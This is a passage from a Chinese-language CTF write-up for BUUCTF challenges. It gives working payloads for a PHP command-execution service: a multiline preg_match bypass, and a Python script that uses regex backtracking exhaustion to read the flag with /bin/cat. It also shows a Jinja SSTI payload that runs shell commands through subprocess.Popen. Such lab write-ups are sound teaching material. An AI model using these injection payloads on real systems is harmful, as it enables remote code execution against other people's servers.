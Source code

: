 ```
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

方法一:

`putenv('PATH=/home/rceservice/jail');`

修改了环境变量，所以只能使用绝对路径使用cat命令，`cat`命令在`/bin`文件夹下

因为`preg_match`只能匹配第一行，所以这里可以采用多行绕过。

具体payload:

`?cmd={%0A"cmd":"ls /home/rceservice"%0A}`

**注意:**当我直接在表单中提交会被过滤,使用get方式就不会被匹配到



方法二:回溯

**回溯.py**

就是使用post提交一个超长的payload,从而绕过`preg_match`

```
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a" * (1000000) + '"}'

res = requests.post("http://5881937a-a9b5-4d44-84f2-844ed296aecd.node5.buuoj.cn:81/", data={"cmd": payload})
print(res.text)

```



# buuctf flasklight

明显ssti模板注入

可以使用tplmap来检测模板类型

方法一:

可以使用脚本**ssti脚本get.py**查找`subprocess.Popen`

`?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`

